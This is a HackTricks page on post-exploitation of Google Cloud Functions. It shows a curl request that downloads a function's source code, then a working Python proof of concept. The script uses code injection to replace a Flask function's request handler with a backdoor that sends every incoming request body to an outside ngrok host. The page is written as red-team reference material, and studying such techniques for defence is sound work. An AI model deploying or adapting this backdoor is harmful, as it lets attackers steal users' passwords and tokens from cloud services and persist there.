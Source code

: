 # GCP - Cloud Functions Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* github repos.

</details>

## Cloud Functions

Find some information about Cloud Functions in:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.sourceCodeGet`

With this permission you can get a **signed URL to be able to download the source code** of the Cloud Function:

{% code overflow="wrap" %}
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

### Steal Cloud Function Requests

If the Cloud Function is managing sensitive information that users are sending (e.g. passwords or tokens), with enough privileges you could **modify the source code of the function and exfiltrate** this information.

Moreover, Cloud Functions running in python use **flask** to expose the web server, if you somehow find a code injection vulnerability inside the flaks process (a SSTI vulnerability for example), it's possible to **override the function handler** that is going to receive the HTTP requests for a **malicious function** that can **exfiltrate the request** before passing it to the legit handler.

For example this code implements the attack:

```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
    """HTTP Cloud Function.
    Args:
        request (flask.Request): The request object.
        <https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
    Returns:
        The response text, or any set of values that can be turned into a
        Response object using `make_response`
        <https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
    """

    if not last:
        return injection()
    else:
        if error:
            return error
        else:
            return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
    try:
        from urllib import request as urllib_request
        req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
        urllib_request.urlopen(req, timeout=0.1)
    except Exception as e:
        if not "read operation timed out" in str(e):
            return str(e)
    
    return ""

def new_http_view_func_wrapper(function, request):
    def view_func(path):
        try:
            error = exfiltrate(request)
            return function(request._get_current_object(), last=True, error=error)
        except Exception as e:
            return str(e)
    
    return view_func
"""

def injection():
    global new_function
    try:
        from flask import current_app as app
        import flask
        import os
        import importlib
        import sys        

        if os.access('/tmp', os.W_OK):
            new_function_path = "/tmp/function.py"
            with open(new_function_path, "w") as f:
                f.write(new_function)
            os.chmod(new_function_path, 0o777)
        
        if not os.path.exists('/tmp/function.py'):
            return "/tmp/function.py doesn't exists"

        # Get relevant function names
        handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
        source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
        realpath = os.path.realpath(source_path) # Get full path

        # Get the modules representations
        spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
        module_handler = importlib.util.module_from_spec(spec_handler)

        spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
        module_backdoor = importlib.util.module_from_spec(spec_backdoor)

        # Load the modules inside the app context
        with app.app_context():
            spec_handler.loader.exec_module(module_handler)
            spec_backdoor.loader.exec_module(module_backdoor)

        # make the cloud funtion use as handler the new function 
        prev_handler = getattr(module_handler, handler_fname)
        new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
        app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
        return "Injection completed!"
    
    except Exception as e:
        return str(e)
```
